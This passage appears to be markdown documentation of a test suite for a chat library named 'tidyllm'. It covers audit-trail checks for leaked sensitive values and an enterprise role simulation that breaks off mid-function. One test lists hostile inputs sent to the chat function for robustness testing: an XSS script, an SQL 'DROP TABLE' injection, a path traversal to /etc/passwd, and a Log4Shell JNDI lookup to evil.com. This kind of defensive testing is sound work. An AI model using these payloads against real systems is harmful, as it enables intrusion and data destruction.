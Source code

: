 ```python
            print(f"WARNING: Password appeared in response")

        # Validate audit trail doesn't contain sensitive data
        if isinstance(response, dict) and 'audit_trail' in response:
            audit_str = str(response['audit_trail'])
            # Check common sensitive patterns aren't in audit
            assert "123-45-6789" not in audit_str
            assert "4111-1111-1111-1111" not in audit_str
            assert "admin123" not in audit_str

    # Test input validation
    malicious_inputs = [
        "<script>alert('xss')</script>",
        "'; DROP TABLE users; --",
        "../../../etc/passwd",
        "${jndi:ldap://evil.com/a}"
    ]

    for malicious_input in malicious_inputs:
        try:
            response = tidyllm.chat(malicious_input, chat_type="direct")
            # Should handle malicious input gracefully
            assert response is not None
            print(f"Malicious input handled: {malicious_input[:20]}...")
        except Exception as e:
            print(f"Malicious input caused error: {e}")
```

### Advanced-5: Enterprise Integration Simulation
**Purpose:** Simulate enterprise deployment scenarios

```python
def test_advanced_enterprise_integration():
    """Simulate enterprise integration scenarios"""

    # Simulate different enterprise use cases
    enterprise_scenarios = [
        {
            "role": "customer_service",
            "query": "How do I return a defective product?",
            "expected_features": ["policy_compliance", "audit_trail"]
        },
        {
            "role": "hr_assistant",
            "query": "What are the vacation policies?",
            "expected_features": ["confidentiality", "role_based_access"]
        },
        {
            "role": "technical_support",
            "query": "Debug network connectivity issues",
            "expected_features": ["technical_accuracy", "escalation_path"]
        },
        {
            "role": "compliance_officer",
            "query": "Review regulatory requirements for data processing",
            "expected_features": ["regulatory_compliance", "documentation"]
        }
    ]

    for scenario in enterprise_scenarios:
        print(f"Testing scenario: {scenario['role']}")

        # Add role context to query
```